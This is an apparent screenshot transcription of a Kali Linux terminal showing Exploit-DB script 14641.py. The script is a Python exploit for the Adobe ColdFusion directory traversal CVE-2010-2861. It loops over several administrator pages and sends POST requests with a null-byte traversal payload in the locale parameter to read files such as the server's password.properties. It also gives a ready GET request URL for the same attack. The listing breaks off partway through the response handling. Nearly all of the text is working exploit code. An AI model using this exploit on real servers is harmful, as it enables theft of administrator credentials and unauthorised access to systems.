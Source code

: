 ```
┌──(kali㉿kali)-[~/Desktop]
└─$ cat /usr/share/exploitdb/exploits/multiple/remote/14641.py 
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
#
# LLsecurity added another admin page filename: "/CFIDE/administrator/enter.cfm"


#!/usr/bin/python

# CVE-2010-2861 - Adobe ColdFusion Unspecified Directory Traversal Vulnerability
# detailed information about the exploitation of this vulnerability:
# http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

# leo 13.08.2010

import sys
import socket
import re

# in case some directories are blocked
filenames = ("/CFIDE/wizards/common/_logintowizard.cfm", "/CFIDE/administrator/archives/index.cfm", "/cfide/install.cfm", "/CFIDE/administrator/entman/index.cfm", "/CFIDE/administrator/enter.cfm")

post = """POST %s HTTP/1.1
Host: %s
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: %d

locale=%%00%s%%00a"""

def main():
    if len(sys.argv) != 4:
        print "usage: %s <host> <port> <file_path>" % sys.argv[0]
        print "example: %s localhost 80 ../../../../../../../lib/password.properties" % sys.argv[0]
        print "if successful, the file will be printed"
        return
    
    host = sys.argv[1]
    port = sys.argv[2]
    path = sys.argv[3]

    for f in filenames:
        print "------------------------------"
        print "trying", f

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, int(port)))
        s.send(post % (f, host, len(path) + 14, path))

        buf = ""
        while 1:
            buf_s = s.recv(1024)
            if len(buf_s) == 0:
                break
            buf += buf_s
       
        m = re.search('<title>(.*)</title>', buf, re.S)
        if m != None:
            title = m.groups(0)[0]
            print "title from server in %s:" % f
```